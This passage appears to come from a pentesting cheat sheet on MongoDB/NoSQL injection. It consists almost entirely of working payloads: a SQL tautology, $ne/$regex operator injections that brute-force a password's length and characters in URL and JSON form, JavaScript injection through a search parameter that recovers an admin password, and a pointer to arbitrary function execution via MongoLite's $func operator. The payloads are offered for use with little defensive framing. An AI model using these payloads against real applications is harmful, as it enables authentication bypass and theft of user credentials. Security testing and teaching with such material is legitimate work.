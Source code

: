 ### **SQL - Mongo**

```
Normal sql: ' or 1=1-- -
Mongo sql: ' || 1==1//    or    ' || 1==1%00
```

### Extract **length** information

```bash
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
# True if the length equals 1,3...
```

### Extract **data** information

```
in URL (if length == 3)
username[$ne]=toto&password[$regex]=a.{2}
username[$ne]=toto&password[$regex]=b.{2}
...
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

### **SQL - Mongo**

```
/?search=admin' && this.password%00 --> Check if the field password exists
/?search=admin' && this.password && this.password.match(/.*/)%00 --> start matching password
/?search=admin' && this.password && this.password.match(/^a.*$/)%00
/?search=admin' && this.password && this.password.match(/^b.*$/)%00
/?search=admin' && this.password && this.password.match(/^c.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj78i3u$/)%00  Found
```

### PHP Arbitrary Function Execution

Using the **$func** operator of the [MongoLite](https://github.com/agentejo/cockpit/tree/0.11.1/lib/MongoLite) library (used by default) it might be possible to execute and arbitrary function as in [this report](https://swarm.ptsecurity.com/rce-cockpit-cms/).

